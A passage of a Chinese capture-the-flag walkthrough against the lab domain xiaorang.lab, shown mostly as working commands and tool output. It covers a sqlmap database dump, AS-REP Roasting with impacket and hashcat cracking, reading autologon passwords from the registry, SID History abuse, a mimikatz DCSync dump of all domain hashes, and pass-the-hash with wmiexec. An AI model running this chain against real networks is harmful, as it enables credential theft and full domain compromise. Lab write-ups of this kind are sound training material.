| 374 | liuyuan@xiaorang.lab       | 15862054540 | LIU YUAN        |
| 375 | chenggu@xiaorang.lab       | 15706685526 | CHENG GU        |
| 376 | shentuyun@xiaorang.lab     | 15816902379 | SHEN TU YUN     |
| 377 | zhuangsong@xiaorang.lab    | 17810274262 | ZHUANG SONG     |
| 378 | chushao@xiaorang.lab       | 18822001640 | CHU SHAO        |
| 379 | heli@xiaorang.lab          | 13701347081 | HE LI           |
| 380 | haoming@xiaorang.lab       | 15049615282 | HAO MING        |
| 381 | xieyi@xiaorang.lab         | 17840660107 | XIE YI          |
| 382 | shangjie@xiaorang.lab      | 15025010410 | SHANG JIE       |
| 383 | situxin@xiaorang.lab       | 18999728941 | SI TU XIN       |
| 384 | linxi@xiaorang.lab         | 18052976097 | LIN XI          |
| 385 | zoufu@xiaorang.lab         | 15264535633 | ZOU FU          |
| 386 | qianqing@xiaorang.lab      | 18668594658 | QIAN QING       |
| 387 | qiai@xiaorang.lab          | 18154690198 | QI AI           |
| 388 | ruilin@xiaorang.lab        | 13654483014 | RUI LIN         |
| 389 | luomeng@xiaorang.lab       | 15867095032 | LUO MENG        |
| 390 | huaren@xiaorang.lab        | 13307653720 | HUA REN         |
| 391 | yanyangmei@xiaorang.lab    | 15514015453 | YAN YANG MEI    |
| 392 | zuofen@xiaorang.lab        | 15937087078 | ZUO FEN         |
| 393 | manyuan@xiaorang.lab       | 18316106061 | MAN YUAN        |
| 394 | yuhui@xiaorang.lab         | 18058257228 | YU HUI          |
| 395 | sunli@xiaorang.lab         | 18233801124 | SUN LI          |
| 396 | guansixin@xiaorang.lab     | 13607387740 | GUAN SI XIN     |
| 397 | ruisong@xiaorang.lab       | 13306021674 | RUI SONG        |
| 398 | qiruo@xiaorang.lab         | 13257810331 | QI RUO          |
| 399 | jinyu@xiaorang.lab         | 18565922652 | JIN YU          |
| 400 | shoujuan@xiaorang.lab      | 18512174415 | SHOU JUAN       |
| 401 | yanqian@xiaorang.lab       | 13799789435 | YAN QIAN        |
| 402 | changyun@xiaorang.lab      | 18925015029 | CHANG YUN       |
| 403 | hualu@xiaorang.lab         | 13641470801 | HUA LU          |
| 404 | huanming@xiaorang.lab      | 15903282860 | HUAN MING       |
| 405 | baoshao@xiaorang.lab       | 13795275611 | BAO SHAO        |
| 406 | hongmei@xiaorang.lab       | 13243605925 | HONG MEI        |
| 407 | manyun@xiaorang.lab        | 13238107359 | MAN YUN         |
| 408 | changwan@xiaorang.lab      | 13642205622 | CHANG WAN       |
| 409 | wangyan@xiaorang.lab       | 13242486231 | WANG YAN        |
| 410 | shijian@xiaorang.lab       | 15515077573 | SHI JIAN        |
| 411 | ruibei@xiaorang.lab        | 18157706586 | RUI BEI         |
| 412 | jingshao@xiaorang.lab      | 18858376544 | JING SHAO       |
| 413 | jinzhi@xiaorang.lab        | 18902437082 | JIN ZHI         |
| 414 | yuhui@xiaorang.lab         | 15215599294 | YU HUI          |
| 415 | zangpeng@xiaorang.lab      | 18567574150 | ZANG PENG       |
| 416 | changyun@xiaorang.lab      | 15804640736 | CHANG YUN       |
| 417 | yetai@xiaorang.lab         | 13400150018 | YE TAI          |
| 418 | luoxue@xiaorang.lab        | 18962643265 | LUO XUE         |
| 419 | moqian@xiaorang.lab        | 18042706956 | MO QIAN         |
| 420 | xupeng@xiaorang.lab        | 15881934759 | XU PENG         |
| 421 | ruanyong@xiaorang.lab      | 15049703903 | RUAN YONG       |
| 422 | guliangxian@xiaorang.lab   | 18674282714 | GU LIANG XIAN   |
| 423 | yinbin@xiaorang.lab        | 15734030492 | YIN BIN         |
| 424 | huarui@xiaorang.lab        | 17699257041 | HUA RUI         |
| 425 | niuya@xiaorang.lab         | 13915041589 | NIU YA          |
| 426 | guwei@xiaorang.lab         | 13584571917 | GU WEI          |
| 427 | qinguan@xiaorang.lab       | 18427953434 | QIN GUAN        |
| 428 | yangdanhan@xiaorang.lab    | 15215900100 | YANG DAN HAN    |
| 429 | yingjun@xiaorang.lab       | 13383367818 | YING JUN        |
| 430 | weiwan@xiaorang.lab        | 13132069353 | WEI WAN         |
| 431 | sunduangu@xiaorang.lab     | 15737981701 | SUN DUAN GU     |
| 432 | sisiwu@xiaorang.lab        | 18021600640 | SI SI WU        |
| 433 | nongyan@xiaorang.lab       | 13312613990 | NONG YAN        |
| 434 | xuanlu@xiaorang.lab        | 13005748230 | XUAN LU         |
| 435 | yunzhong@xiaorang.lab      | 15326746780 | YUN ZHONG       |
| 436 | gengfei@xiaorang.lab       | 13905027813 | GENG FEI        |
| 437 | zizhuansong@xiaorang.lab   | 13159301262 | ZI ZHUAN SONG   |
| 438 | ganbailong@xiaorang.lab    | 18353612904 | GAN BAI LONG    |
| 439 | shenjiao@xiaorang.lab      | 15164719751 | SHEN JIAO       |
| 440 | zangyao@xiaorang.lab       | 18707028470 | ZANG YAO        |
| 441 | yangdanhe@xiaorang.lab     | 18684281105 | YANG DAN HE     |
| 442 | chengliang@xiaorang.lab    | 13314617161 | CHENG LIANG     |
| 443 | xudi@xiaorang.lab          | 18498838233 | XU DI           |
| 444 | wulun@xiaorang.lab         | 18350490780 | WU LUN          |
| 445 | yuling@xiaorang.lab        | 18835870616 | YU LING         |
| 446 | taoya@xiaorang.lab         | 18494928860 | TAO YA          |
| 447 | jinle@xiaorang.lab         | 15329208123 | JIN LE          |
| 448 | youchao@xiaorang.lab       | 13332964189 | YOU CHAO        |
| 449 | liangduanzhi@xiaorang.lab  | 15675237494 | LIANG DUAN ZHI  |
| 450 | jiagupiao@xiaorang.lab     | 17884962455 | JIA GU PIAO     |
| 451 | ganze@xiaorang.lab         | 17753508925 | GAN ZE          |
| 452 | jiangqing@xiaorang.lab     | 15802357200 | JIANG QING      |
| 453 | jinshan@xiaorang.lab       | 13831466303 | JIN SHAN        |
| 454 | zhengpubei@xiaorang.lab    | 13690156563 | ZHENG PU BEI    |
| 455 | cuicheng@xiaorang.lab      | 17641589842 | CUI CHENG       |
| 456 | qiyong@xiaorang.lab        | 13485427829 | QI YONG         |
| 457 | qizhu@xiaorang.lab         | 18838859844 | QI ZHU          |
| 458 | ganjian@xiaorang.lab       | 18092585003 | GAN JIAN        |
| 459 | yurui@xiaorang.lab         | 15764121637 | YU RUI          |
| 460 | feishu@xiaorang.lab        | 18471512248 | FEI SHU         |
| 461 | chenxin@xiaorang.lab       | 13906545512 | CHEN XIN        |
| 462 | shengzhe@xiaorang.lab      | 18936457394 | SHENG ZHE       |
| 463 | wohong@xiaorang.lab        | 18404022650 | WO HONG         |
| 464 | manzhi@xiaorang.lab        | 15973350408 | MAN ZHI         |
| 465 | xiangdong@xiaorang.lab     | 13233908989 | XIANG DONG      |
| 466 | weihui@xiaorang.lab        | 15035834945 | WEI HUI         |
| 467 | xingquan@xiaorang.lab      | 18304752969 | XING QUAN       |
| 468 | miaoshu@xiaorang.lab       | 15121570939 | MIAO SHU        |
| 469 | gongwan@xiaorang.lab       | 18233990398 | GONG WAN        |
| 470 | qijie@xiaorang.lab         | 15631483536 | QI JIE          |
| 471 | shaoting@xiaorang.lab      | 15971628914 | SHAO TING       |
| 472 | xiqi@xiaorang.lab          | 18938747522 | XI QI           |
| 473 | jinghong@xiaorang.lab      | 18168293686 | JING HONG       |
| 474 | qianyou@xiaorang.lab       | 18841322688 | QIAN YOU        |
| 475 | chuhua@xiaorang.lab        | 15819380754 | CHU HUA         |
| 476 | yanyue@xiaorang.lab        | 18702474361 | YAN YUE         |
| 477 | huangjia@xiaorang.lab      | 13006878166 | HUANG JIA       |
| 478 | zhouchun@xiaorang.lab      | 13545820679 | ZHOU CHUN       |
| 479 | jiyu@xiaorang.lab          | 18650881187 | JI YU           |
| 480 | wendong@xiaorang.lab       | 17815264093 | WEN DONG        |
| 481 | heyuan@xiaorang.lab        | 18710821773 | HE YUAN         |
| 482 | mazhen@xiaorang.lab        | 18698248638 | MA ZHEN         |
| 483 | shouchun@xiaorang.lab      | 15241369178 | SHOU CHUN       |
| 484 | liuzhe@xiaorang.lab        | 18530936084 | LIU ZHE         |
| 485 | fengbo@xiaorang.lab        | 15812110254 | FENG BO         |
| 486 | taigongyuan@xiaorang.lab   | 15943349034 | TAI GONG YUAN   |
| 487 | gesheng@xiaorang.lab       | 18278508909 | GE SHENG        |
| 488 | songming@xiaorang.lab      | 13220512663 | SONG MING       |
| 489 | yuwan@xiaorang.lab         | 15505678035 | YU WAN          |
| 490 | diaowei@xiaorang.lab       | 13052582975 | DIAO WEI        |
| 491 | youyi@xiaorang.lab         | 18036808394 | YOU YI          |
| 492 | rongxianyu@xiaorang.lab    | 18839918955 | RONG XIAN YU    |
| 493 | fuyi@xiaorang.lab          | 15632151678 | FU YI           |
| 494 | linli@xiaorang.lab         | 17883399275 | LIN LI          |
| 495 | weixue@xiaorang.lab        | 18672465853 | WEI XUE         |
| 496 | hejuan@xiaorang.lab        | 13256081102 | HE JUAN         |
| 497 | zuoqiutai@xiaorang.lab     | 18093001354 | ZUO QIU TAI     |
| 498 | siyi@xiaorang.lab          | 17873307773 | SI YI           |
| 499 | shenshan@xiaorang.lab      | 18397560369 | SHEN SHAN       |
| 500 | tongdong@xiaorang.lab      | 15177549595 | TONG DONG       |
+-----+----------------------------+-------------+-----------------+

[12:03:34] [INFO] table 'oa_db.oa_users' dumped to CSV file 'C:\Users\23232\AppData\Local\sqlmap\output\172.22.6.38\dump\oa_db\oa_users.csv'
[12:03:34] [INFO] fetching columns for table 'oa_admin' in database 'oa_db'
[12:03:34] [INFO] fetching entries for table 'oa_admin' in database 'oa_db'
Database: oa_db
Table: oa_admin
[1 entry]
+----+------------------+---------------+
| id | password         | username      |
+----+------------------+---------------+
| 1  | bo2y8kAL3HnXUiQo | administrator |
+----+------------------+---------------+

[12:03:34] [INFO] table 'oa_db.oa_admin' dumped to CSV file 'C:\Users\23232\AppData\Local\sqlmap\output\172.22.6.38\dump\oa_db\oa_admin.csv'
[12:03:34] [INFO] fetched data logged to text files under 'C:\Users\23232\AppData\Local\sqlmap\output\172.22.6.38'
[12:03:34] [WARNING] your sqlmap version is outdated

[*] ending @ 12:03:34 /2025-11-07/
```

直接拿到flag2

## flag3

之前在flag1中提示过这段话

```bash
Do you know the authentication process of Kerberos? 
......This will be the key to your progress.
```

关于Kerberos 的身份验证过程，并且上面出现了很多域用户名，用脚本提取出来

```python
import re

def extract_xiaorang_users(file_path):
    """
    从SQLMap输出文件中提取@xiaorang.lab的邮箱和用户名
    
    参数:
        file_path: SQLMap输出文件的路径
    """
    users = []
    
    try:
        with open(file_path, 'r', encoding='utf-8') as f:
            content = f.read()
            
            # 使用正则表达式匹配邮箱和用户名
            # 格式: | id | email@xiaorang.lab | phone | username |
            pattern = r'\|\s*\d+\s*\|\s*([a-zA-Z0-9]+)@xiaorang\.lab\s*\|\s*[\d\s]+\|\s*([A-Z\s]+)\s*\|'
            matches = re.findall(pattern, content)
            
            for match in matches:
                email_prefix = match[0]
                username = match[1].strip()
                full_email = f"{email_prefix}@xiaorang.lab"
                users.append({
                    'email': full_email,
                    'username': username,
                    'email_prefix': email_prefix
                })
        
        return users
    
    except FileNotFoundError:
        print(f"错误: 找不到文件 {file_path}")
        return []
    except Exception as e:
        print(f"错误: {e}")
        return []


def save_to_file(users, output_file='usernames.txt'):
    """
    将提取的用户名保存到文件
    
    参数:
        users: 用户信息列表
        output_file: 输出文件名
    """
    try:
        with open(output_file, 'w', encoding='utf-8') as f:
            for user in users:
                f.write(f"{user['email_prefix']}\n")
        
        print(f"✓ 结果已保存到: {output_file}")
        
    except Exception as e:
        print(f"保存文件时出错: {e}")


def main():
    # 输入文件路径
    input_file = '1.txt'  # 修改为你的SQLMap输出文件路径
    output_file = 'usernames.txt'
    
    print(f"正在从 {input_file} 中提取用户名...")
    
    # 提取用户
    users = extract_xiaorang_users(input_file)
    
    if users:
        print(f"\n✓ 成功提取 {len(users)} 个用户名")
        
        # 显示前10个用户名作为预览
        print("\n前10个用户名预览:")
        print("-" * 30)
        for i, user in enumerate(users[:10], 1):
            print(f"{i}. {user['email_prefix']}")
        
        if len(users) > 10:
            print(f"... 还有 {len(users) - 10} 个")
        
        # 保存到文件
        save_to_file(users, output_file)
        
        # 统计信息
        print(f"\n统计信息:")
        print(f"- 总用户名数: {len(users)}")
        print(f"- 输出文件: {output_file}")
        
    else:
        print("未找到任何用户信息")


if __name__ == "__main__":
    main()
```

输出文件名为username.txt

```tex
chenyan
tanggui
buning
beishu
shushi
fuyi
pangcheng
tonghao
jiaoshan
dulun
kejuan
gexin
lugu
guzaicheng
feicai
ranqun
zhouyi
shishu
yanyun
chengqiu
louyou
maqun
wenbiao
weishengshan
zhangxin
chuyuan
wenliang
yulvxue
luyue
ganjian
pangzhen
guohong
lezhong
sheweiyue
dujian
lidongjin
hongqun
yexing
maoda
qiaomei
nongzhen
dongshu
zhuzhu
jiyun
qiguanrou
yixue
chujun
shenshan
lefen
yubo
helianrui
xuanqun
shangjun
huguang
wansifu
fenghong
wanyan
diyan
xiangyu
songyan
fandi
xiangjuan
beirui
didi
zhubin
lingchun
zhenglu
xundi
wansishun
yezongyue
bianmei
shanshao
zhenhui
chengli
yufen
jiyi
panbao
mennane
fengsi
mingyan
luoyou
liangduanqing
nongyan
haolun
oulun
weichipeng
qidiaofang
xuehe
chensi
guihui
fuyue
wangxing
zhengxiao
guhui
baoai
hangzhao
xingye
qianyi
xionghong
zouqi
rongbiao
gongxin
luxing
huayan
duyue
xijun
daiqing
yingbiao
hengteng
changwu
chengying
luhong
tongxue
xiangqian
shaokang
nongzhu
haomei
maoqing
xiai
bihe
gaoli
jianggong
pangning
ruishi
wuhuan
qiaode
mayong
hangda
changlu
liuyuan
chenggu
shentuyun
zhuangsong
chushao
heli
haoming
xieyi
shangjie
situxin
linxi
zoufu
qianqing
qiai
ruilin
luomeng
huaren
yanyangmei
zuofen
manyuan
yuhui
sunli
guansixin
ruisong
qiruo
jinyu
shoujuan
yanqian
changyun
hualu
huanming
baoshao
hongmei
manyun
changwan
wangyan
shijian
ruibei
jingshao
jinzhi
yuhui
zangpeng
changyun
yetai
luoxue
moqian
xupeng
ruanyong
guliangxian
yinbin
huarui
niuya
guwei
qinguan
yangdanhan
yingjun
weiwan
sunduangu
sisiwu
nongyan
xuanlu
yunzhong
gengfei
zizhuansong
ganbailong
shenjiao
zangyao
yangdanhe
chengliang
xudi
wulun
yuling
taoya
jinle
youchao
liangduanzhi
jiagupiao
ganze
jiangqing
jinshan
zhengpubei
cuicheng
qiyong
qizhu
ganjian
yurui
feishu
chenxin
shengzhe
wohong
manzhi
xiangdong
weihui
xingquan
miaoshu
gongwan
qijie
shaoting
xiqi
jinghong
qianyou
chuhua
yanyue
huangjia
zhouchun
jiyu
wendong
heyuan
mazhen
shouchun
liuzhe
fengbo
taigongyuan
gesheng
songming
yuwan
diaowei
youyi
rongxianyu
fuyi
linli
weixue
hejuan
zuoqiutai
siyi
shenshan
tongdong

```

### AS-REP Roasting攻击

然后我们了解一下Kerberos认证过程 ，利用获取到的用户名进行AS-REP Roasting攻击：https://www.freebuf.com/articles/network/368278.html

可以通过枚举未设置预认证的账号（默认是不关闭的），但当关闭了预身份验证后，攻击者可以使用指定用户向域控制器的Kerberos 88端口请求票据，此时域控不会进行任何验证就将TGT和该用户Hash加密的Login Session Key 返回。因此，攻击者就可以对获取到的用户Hash加密的 Login Session Key 进行离线破解，如果字典够强大，则可能破解得到该指定用户的明文密码

```bash
proxychains4 impacket-GetNPUsers -dc-ip 172.22.6.12 -usersfile usernames.txt xiaorang.lab/
```



```bash
$krb5asrep$23$zhangxin@XIAORANG.LAB:8d66a8868e12d23cf27870f2a9d4b8ed$a5fd1a8fa6d07dabb71b2bd5fee040b4c72967f846a65b32c6ffe0e29b5ac7352d6a6a9fc17365fb801b9d95d92faff9bd3200772a0d96fb23271ea55da971e1b1f414a733c409b04dcbf6b9d9309c2260af2c94c2c63a2db89dacc3acfbd5014055b522a62e96f08e347f59a11742f1bdaa3d44ed2ccd2699d3c34a10f2fdf79d6c1e80f0453c45299dc8b67a9b81b4fde5657bc2b61f1c7a7171ee83a02ae71d1442b5cdd12a8d17d25d95a792ab487b510b7ae94770705dec44a6be1e2341cf62e07501a57e9829e9e1034a00069e534a33398ec339c3a2defac52a3492ac3938392e89acd3a3a847dc80
```

### Hashcat暴力破解

然后用Hashcat或者John去破解哈希
https://blog.csdn.net/2301_79518550/article/details/145441372
hashcat的教程：[hashcat 暴力破解详细教程](https://blog.lololowe.com/posts/f502/)

```bash
proxychains4 hashcat -m 18200 hashes.txt -a 0 ./rockyou.txt --force
```

`-m`可以指定破解的哈希类型：**hashcat的18200模式是专门用来破解Kerberos AS-REP 哈希的**

`-a`指定破解的攻击模式

`--force`用来跳过报错强制继续破解



破解出账户密码

```bash
zhangxin@XIAORANG.LAB:strawberry
```

随便rdp登录一下，盲猜应该是域内机器而不是域控DC，也就是172.22.6.25



查看一下用户信息



发现当前用户是在域里面的

### Windows自动登录凭据泄露

我们查询一下Windows登录相关的注册表信息

```bash
C:\Users\zhangxin>reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon
    AutoRestartShell    REG_DWORD    0x1
    Background    REG_SZ    0 0 0
    CachedLogonsCount    REG_SZ    10
    DebugServerCommand    REG_SZ    no
    DisableBackButton    REG_DWORD    0x1
    EnableSIHostIntegration    REG_DWORD    0x1
    ForceUnlockLogon    REG_DWORD    0x0
    LegalNoticeCaption    REG_SZ
    LegalNoticeText    REG_SZ
    PasswordExpiryWarning    REG_DWORD    0x5
    PowerdownAfterShutdown    REG_SZ    0
    PreCreateKnownFolders    REG_SZ    {A520A1A4-1780-4FF6-BD18-167343C5AF16}
    ReportBootOk    REG_SZ    1
    Shell    REG_SZ    explorer.exe
    ShellCritical    REG_DWORD    0x0
    ShellInfrastructure    REG_SZ    sihost.exe
    SiHostCritical    REG_DWORD    0x0
    SiHostReadyTimeOut    REG_DWORD    0x0
    SiHostRestartCountLimit    REG_DWORD    0x0
    SiHostRestartTimeGap    REG_DWORD    0x0
    Userinit    REG_SZ    C:\Windows\system32\userinit.exe,
    VMApplet    REG_SZ    SystemPropertiesPerformance.exe /pagefile
    WinStationsDisabled    REG_SZ    0
    ShellAppRuntime    REG_SZ    ShellAppRuntime.exe
    scremoveoption    REG_SZ    0
    DisableCAD    REG_DWORD    0x1
    LastLogOffEndTimePerfCounter    REG_QWORD    0xedd7ccd15
    ShutdownFlags    REG_DWORD    0x80000027
    AutoLogonSID    REG_SZ    S-1-5-21-3623938633-4064111800-2925858365-1180
    LastUsedUsername    REG_SZ    yuxuan
    AutoAdminLogon    REG_SZ    1
    DefaultUserName    REG_SZ    yuxuan
    DefaultPassword    REG_SZ    Yuxuan7QbrgZ3L
    DefaultDomainName    REG_SZ    xiaorang.lab

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\AlternateShells
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\GPExtensions
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\UserDefaults
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\AutoLogonChecked
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\VolatileUserMgrKey
```

找到跟yuxuan登录相关的

```bash
LastUsedUsername    REG_SZ    yuxuan
DefaultUserName    REG_SZ    yuxuan
DefaultPassword    REG_SZ    Yuxuan7QbrgZ3L
```

我们换个账号登录一下

### SID历史功能滥用

https://www.cnblogs.com/f-carey/p/15705635.html

这里的话其实是因为这个用户对SID历史功能的滥用

SID History 是一个在 Windows 活动目录中用于迁移的属性，它允许一个账户在从一个域迁移到另一个域时，保留其原有的权限和访问权。当一个用户被迁移时，其旧的 SID 会被添加到新 SID History 属性中，这样即使新 SID 不同，系统依然能够识别出用户的原始身份和权限。 

因为我们保留域管理员的访问权限，那么我们就可以通过这个滥用直接攻击DC了

### DCSync

传个猕猴桃利用DCSync攻击从域控制器（DC）中提取所有域账户的凭据信息

```bash
C:\Users\yuxuan\Desktop>.\mimikatz.exe "lsadump::dcsync /domain:xiaorang.lab /all /csv" "exit"

  .#####.   mimikatz 2.2.0 (x64) #18362 Feb 29 2020 11:13:36
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz(commandline) # lsadump::dcsync /domain:xiaorang.lab /all /csv
[DC] 'xiaorang.lab' will be the domain
[DC] 'DC-PROGAME.xiaorang.lab' will be the DC server
[DC] Exporting domain 'xiaorang.lab'
1103    shuzhen 07c1f387d7c2cf37e0ca7827393d2327        512
1104    gaiyong 52c909941c823dbe0f635b3711234d2e        512
1106    xiqidi  a55d27cfa25f3df92ad558c304292f2e        512
1107    wengbang        6b1d97a5a68c6c6c9233d11274d13a2e        512
1108    xuanjiang       a72a28c1a29ddf6509b8eabc61117c6c        512
1109    yuanchang       e1cea038f5c9ffd9dc323daf35f6843b        512
1110    lvhui   f58b31ef5da3fc831b4060552285ca54        512
1111    wenbo   9abb7115997ea03785e92542f684bdde        512
1112    zhenjun 94c84ba39c3ece24b419ab39fdd3de1a        512
1113    jinqing 4bf6ad7a2e9580bc8f19323f96749b3a        512
1115    yangju  1fa8c6b4307149415f5a1baffebe61cf        512
1117    weicheng        796a774eace67c159a65d6b86fea1d01        512
1118    weixian 8bd7dc83d84b3128bfbaf165bf292990        512
1119    haobei  045cc095cc91ba703c46aa9f9ce93df1        512
1120    jizhen  1840c5130e290816b55b4e5b60df10da        512
1121    jingze  3c8acaecc72f63a4be945ec6f4d6eeee        512
1122    rubao   d8bd6484a344214d7e0cfee0fa76df74        512
1123    zhaoxiu 694c5c0ec86269daefff4dd611305fab        512
1124    tangshun        90b8d8b2146db6456d92a4a133eae225        512
1125    liangliang      c67cd4bae75b82738e155df9dedab7c1        512
1126    qiyue   b723d29e23f00c42d97dd97cc6b04bc8        512
1127    chouqian        c6f0585b35de1862f324bc33c920328d        512
1128    jicheng 159ee55f1626f393de119946663a633c        512
1129    xiyi    ee146df96b366efaeb5138832a75603b        512
1130    beijin  a587b90ce9b675c9acf28826106d1d1d        512
1131    chenghui        08224236f9ddd68a51a794482b0e58b5        512
1132    chebin  b50adfe07d0cef27ddabd4276b3c3168        512
1133    pengyuan        a35d8f3c986ab37496896cbaa6cdfe3e        512
1134    yanglang        91c5550806405ee4d6f4521ba6e38f22        512
1135    jihuan  cbe4d79f6264b71a48946c3fa94443f5        512
1136    duanmuxiao      494cc0e2e20d934647b2395d0a102fb0        512
1137    hongzhi f815bf5a1a17878b1438773dba555b8b        512
1138    gaijin  b1040198d43631279a63b7fbc4c403af        512
1139    yifu    4836347be16e6af2cd746d3f934bb55a        512
1140    fusong  adca7ec7f6ab1d2c60eb60f7dca81be7        512
1141    luwan   c5b2b25ab76401f554f7e1e98d277a6a        512
1142    tangrong        2a38158c55abe6f6fe4b447fbc1a3e74        512
1143    zhufeng 71e03af8648921a3487a56e4bb8b5f53        512
1145    dongcheng       f2fdf39c9ff94e24cf185a00bf0a186d        512
1146    lianhuangchen   23dc8b3e465c94577aa8a11a83c001af        512
1147    lili    b290a36500f7e39beee8a29851a9f8d5        512
1148    huabi   02fe5838de111f9920e5e3bb7e009f2f        512
1149    rangsibo        103d0f70dc056939e431f9d2f604683c        512
1150    wohua   cfcc49ec89dd76ba87019ca26e5f7a50        512
1151    haoguang        33efa30e6b3261d30a71ce397c779fda        512
1152    langying        52a8a125cd369ab16a385f3fcadc757d        512
1153    diaocai a14954d5307d74cd75089514ccca097a        512
1154    lianggui        4ae2996c7c15449689280dfaec6f2c37        512
1155    manxue  0255c42d9f960475f5ad03e0fee88589        512
1156    baqin   327f2a711e582db21d9dd6d08f7bdf91        512
1157    chengqiu        0d0c1421edf07323c1eb4f5665b5cb6d        512
1158    louyou  a97ba112b411a3bfe140c941528a4648        512
1159    maqun   485c35105375e0754a852cee996ed33b        512
1160    wenbiao 36b6c466ea34b2c70500e0bfb98e68bc        512
1161    weishengshan    f60a4233d03a2b03a7f0ae619c732fae        512
1163    chuyuan 0cfdca5c210c918b11e96661de82948a        512
1164    wenliang        a4d2bacaf220292d5fdf9e89b3513a5c        512
1165    yulvxue cf970dea0689db62a43b272e2c99dccd        512
1166    luyue   274d823e941fc51f84ea323e22d5a8c4        512
1167    ganjian 7d3c39d94a272c6e1e2ffca927925ecc        512
1168    pangzhen        51d37e14983a43a6a45add0ae8939609        512
1169    guohong d3ce91810c1f004c782fe77c90f9deb6        512
1170    lezhong dad3990f640ccec92cf99f3b7be092c7        512
1171    sheweiyue       d17aecec7aa3a6f4a1e8d8b7c2163b35        512
1172    dujian  8f7846c78f03bf55685a697fe20b0857        512
1173    lidongjin       34638b8589d235dea49e2153ae89f2a1        512
1174    hongqun 6c791ef38d72505baeb4a391de05b6e1        512
1175    yexing  34842d36248c2492a5c9a1ae5d850d54        512
1176    maoda   6e65c0796f05c0118fbaa8d9f1309026        512
1177    qiaomei 6a889f350a0ebc15cf9306687da3fd34        512
502     krbtgt  a4206b127773884e2c7ea86cdd282d9c        514
1178    wenshao b31c6aa5660d6e87ee046b1bb5d0ff79        4260352
500     Administrator   04d93ffd6f5f6e4490e0de23f240a5e9        512
1000    DC-PROGAME$     fc8a213a7e386e9618925003f1094dd1        532480
1179    zhangxin        d6c5976e07cdb410be19b84126367e3d        4260352
1181    WIN2019$        f1aac1dc820bfe855e949cb1b272d430        4096
1180    yuxuan  376ece347142d1628632d440530e8eed        66048

mimikatz(commandline) # exit
Bye!
```

直接拿到管理员的hash，那直接PTH吧

```bash
proxychains4 impacket-wmiexec XIAORANG/administrator@172.22.6.25 -hashes :04d93ffd6f5f6e4490e0de23f240a5e9
proxychains4 impacket-wmiexec XIAORANG/administrator@172.22.6.12 -hashes :04d93ffd6f5f6e4490e0de23f240a5e9
```




